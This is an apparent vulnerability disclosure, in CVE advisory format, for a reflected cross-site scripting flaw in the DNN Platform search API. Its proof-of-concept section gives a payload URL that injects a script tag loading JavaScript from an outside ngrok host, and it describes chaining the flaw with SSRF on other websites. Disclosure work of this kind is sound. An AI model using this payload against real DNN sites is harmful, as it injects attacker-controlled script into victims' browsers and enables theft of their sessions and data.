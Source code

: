 ﻿## Remote XSS in DNN Platform
### CVE-2018-14486
#### Description
DNN Platform is an open source .NET CMS and the DNN CMS Platform is a well-known CMS system based on .NET. The DNN CMS Platform has a no-fix exploit from 2018 they never fixed allowing us to use their search API to reflect contents of it on a remote website.

#### Vulnerability Type
Cross Site Scripting (XSS)

#### Vendor of Product
DNN Corp.

#### Affected Product Code Base
All DNN Products

#### Affected Component
DotNetNuke Core

#### Attack Type
Remote

#### Proof of Concept
Leveraging SSRF on another website, I can chain together XSS on the DNN Platform. The following is a proof of concept that will reflect Message back onto the SSRF Vulnerable website.

```html
https://www.dnnvictimsite.com/API/internalservices/searchService/search?search=\'"<ScRiPt src="https://asdasd.ngrok.io/xss.js"/>
```

>[!note]
> Leveraging this method allows us to reflect and abuse the vulnerability on all vulnerable SSRF websites.